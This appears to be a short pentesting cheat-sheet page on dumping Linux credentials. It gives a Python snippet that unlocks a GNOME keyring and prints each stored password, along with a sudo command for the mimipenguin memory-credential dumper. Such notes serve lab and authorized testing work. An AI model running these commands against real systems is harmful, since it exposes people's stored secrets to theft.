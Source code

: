 # Linux




## GNOME Keyrings

- [https://snovvcrash.github.io/2021/08/07/htb-rpg.html#3-ones-act-ones-profit](https://snovvcrash.github.io/2021/08/07/htb-rpg.html#3-ones-act-ones-profit)

List keyrings:

```
$ python3 -c "import gnomekeyring as gk;print(gk.list_keyring_names_sync())"
```

Unlock keyring with password:

```python
import gnomekeyring as gk

def list_keyring_items(keyring_name):
	print(f'*********{keyring_name}**********')
	gk.unlock_sync(keyring_name, 'Passw0rd!')
	item_keys = gk.list_item_ids_sync(keyring_name)
	for key in item_keys:
		item_info = gk.item_get_info_sync(keyring_name, key)
		print(f'Number: {key}')
		print(f'Name: {item_info.get_display_name()}')
		print(f'Password: {item_info.get_secret()}')

list_keyring_items('mykeyring')
```




## Tools



### mimipenguin

- [https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)

```
$ sudo python3 mimipenguin.py
```
